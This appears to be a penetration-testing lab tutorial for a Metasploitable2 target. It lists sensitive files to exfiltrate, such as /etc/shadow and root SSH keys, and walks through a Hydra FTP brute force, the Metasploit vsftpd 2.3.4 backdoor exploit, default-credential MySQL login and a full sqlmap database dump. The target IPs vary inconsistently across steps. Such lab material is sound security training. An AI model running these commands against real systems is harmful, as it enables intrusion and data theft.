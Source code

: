 ```yaml
---
title: '4. Lab 4: Exploitation'
updated: 2023-04-23 04:14:00Z
created: 2023-04-22 20:55:19Z
---
```

# Lab 4: Exploitation

- Exploitation is when we take our enumerated targets and attempt to expose them.
- Please remember to stay in scope and use this information responsibly.

## **Linux Exfiltration Target Files:**
- These are all target files we should keep a lookout for as they hold confidential information that could compromise CIA
	- /etc/passwd
	- /etc/shadow
	- /etc/issue
	- /etc/group
	- /etc/hostname
	- /etc/ssh/ssh_config
	- /etc/ssh/sshd_config
	- /root/.ssh/id_rsa
	- /root/.ssh/authorized_keys
	- /home/user/.ssh/authorized_keys
	- /home/user/.ssh/id_rsa

## Using Hydra to Bruteforce FTP
- Hydra is a credential bruteforcing tool that is included with Kali Linux.
	- Type 'hydra -hh' in your terminal to view Hydra's full functionality:
- **To bruteforce with Hydra,** we will once again use wordlists, but this time we will use a credential list.
	- In your Kali terminal type:
	- hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.1.139 -o /home/user/Documents/hydra_ftp.txt
		- The -C flag tells Hydra that the wordlist we are providing has credentials in a 'username:password' format.
		- The -o flag tells Hydra we want to output the results to a text file called hydra_ftp in our Documents folder
	- **Now that we have some credentials** from Hydra, type the following in your terminal:
		- ftp 192.168.9.239
			- You will be prompted to log in.
			- Let's try some credential we obtained from our bruteforce attack:
			- Username: "user" : Password: "user"
			- Once logged in, use your terminal do perform the following:
				- Check our working directory with "pwd"
				- Check the folders and files with "dir"
				- Move back a directory with "cd .."
				- One more time "cd .."
				- "dir" to view all files and folders again
			- See any files worth exfiltrating? 'cd' into any folders that you think may include those files.
			- Use "get 'filename'" in your terminal to retrieve them to your machine.

## **Exploiting FTP With Metasploit**
- The Metasploit Framework is an extremely powerful tool and is capable of excecuting hundreds of exploits.
- To use the metasploit framework, type **msfconsole** in your terminal.
- If your terminal prompt now shows 'msf6 >', you are ready to use Metasploit.
- Now is where our vulnerability research comes in handy. From Metsploit, perform the following steps:
    - **msf6** > search 'ftp'
        -   To read more about this exploit, check out: [NVD - CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
    - **msf6** > use exploit/unix/ftp/vsftpd_234_backdoor
    - **msf6** > set RHOSTS 192.168.9.239
    - **msf6** > run
- As you can see we now have a command shell opened on Metasploitable through FTP.
- In your terminal, type the following:
	- whoami
	- ifconfig
		- Observe the IP listed for inet addr
	- Use 'dir' to view the file structure
	- 'cd' into a folder to view it's contents
- Type 'exit' to close the connection

## Exploiting MySql Manually
-   To log into MySql, we use the following login template in our terminals:
    -   mysql -h {hostname} -u username -p {databasename}
-   Since we don't have any credentials yet, let's do some research on default MySql creds.
    - Remember from our subdirectory enumeration with gobuster, we found a subdirectory called /phpinfo.
    - Navigate to 192.168.9.239/phpinfo in your web browser of choice.
    - PHP info files can contain a wealth of information pertaining to web servers.
    - If we scroll down a bit, we can see that the mysql default user and password have no values. 
    - Let's find out what those could be.
        - [MySQL - What is the Default Username and Password?](https://dbschema.com/2020/04/21/mysql-default-username-password/#:~:text=The%20default%20user%20for%20MySQL,it%20and%20choose%20another%20one.)
-   Using info from our research, we can try the default credentials for MySql
-   In your terminal type:
    -   mysql -u root -h 192.168.1.103 -p
        -   Here we use the -u flag to specify the username 'root'
        -   Since the default password for MySql is empty, we leave the -p (password) flag empty
-   Using MySQL in the terminal:
    -   From the mysql> prompt:
    -   SHOW DATABASES
        -   "use 'database_name'"
            -   SHOW TABLES
    -   Repeat these steps and practice your sql-fu to see what you can find.

## Exploiting MySql With SqlMap
-   You may have noticed some of the other options for SqlMap in the enumeration step. Now is when we get to use them.
-   In your terminal, type the following:
    -   sqlmap -d "mysql://root:@192.168.9.239:3306/" ---dump-all --output-dir=/home/user/Documents/
    -   This step dumps the contents of the entire database to our machine. Take a look.
- **Once you have finished these steps, please move on to Lab 5**

# PLEASE NOTE
### These labs only scratch the surface of the reconnaissance, enumeration, and exploitation opportunities offered by Metasploitable2. I encourage you to use Kali tools and the leads from your scans to continue practicing if that interests you. If not, you are free to move on to Lab 5.
